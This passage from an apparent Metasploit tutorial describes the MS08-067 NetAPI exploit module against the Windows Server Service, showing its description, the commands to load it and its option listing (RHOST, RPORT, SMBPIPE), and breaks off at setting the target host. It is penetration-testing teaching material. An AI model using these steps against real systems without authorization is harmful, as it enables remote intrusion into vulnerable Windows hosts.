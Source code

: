 ```
❾ Description:
    This module exploits a parsing flaw in the path canonicalization
    code of NetAPI32.dll through the Server Service. This module is
    capable of bypassing NX on some operating systems and service packs.
    The correct target must be used to prevent the Server Service (along
    with a dozen others in the same process) from crashing. Windows XP
    targets seem to handle multiple successful exploitation events, but
    2003 targets will often crash or hang on subsequent attempts. This
    is just the first version of this module, full support for NX bypass
    on 2003, along with other platforms, is still in development.
❿ References:
    http://www.microsoft.com/technet/security/bulletin/MS08-067.mspx
```

### Enabling The Module

use the `use` command to set the exploit module

```
msf > use windows/smb/ms08_067_netapi
msf  exploit(ms08_067_netapi) >
```

### Setting Module Options

use the `show options` command to show the module options that need to be set

```
msf  exploit(ms08_067_netapi) > show options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
  RHOST                     yes       The target address
  RPORT    445              yes       Set the SMB service port
  SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)

Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting


msf  exploit(ms08_067_netapi) >
```

`RHOST` - refers to the remote host to exploit  
`RPORT` - refers to the remote port to attack  
`SMBPIPE` - used for Windows Interprocess Communication  

- setting remote host

